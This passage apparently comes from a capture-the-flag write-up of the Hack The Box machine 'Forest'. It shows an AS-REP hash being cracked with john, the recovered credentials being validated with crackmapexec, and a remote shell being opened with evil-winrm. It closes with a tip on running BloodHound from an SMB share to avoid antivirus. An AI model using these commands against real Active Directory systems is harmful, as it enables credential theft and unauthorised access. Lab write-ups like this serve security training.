 And we got a hash! We can now use something like `john` to get the password with the Rockyou dictionary.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Forest]
└─$ john --wordlist=/home/kali/Wordlists/rockyou.txt hashes    
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:01 DONE (2022-11-23 10:17) 0.5102g/s 2084Kp/s 2084Kc/s 2084KC/s s521379846..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

As you can see we have now credentials to login to the domain: `svc-alfresco:s3rvice`, I tested with `crackmapexec` if we can use Powershell remoting to get to the machine and looks like we are lucky:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Forest]
└─$ crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice       
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Using `evil-winrm` we can get a shell into the machine and get the user flag.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'            

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

## Privilege escalation

### Enumeration process

First of all I used the BloodHound Windows collector to get information about the AD. For it, I hosted I samba share in my machine and just executed the binary from the target box. This is great to avoid some AVs:
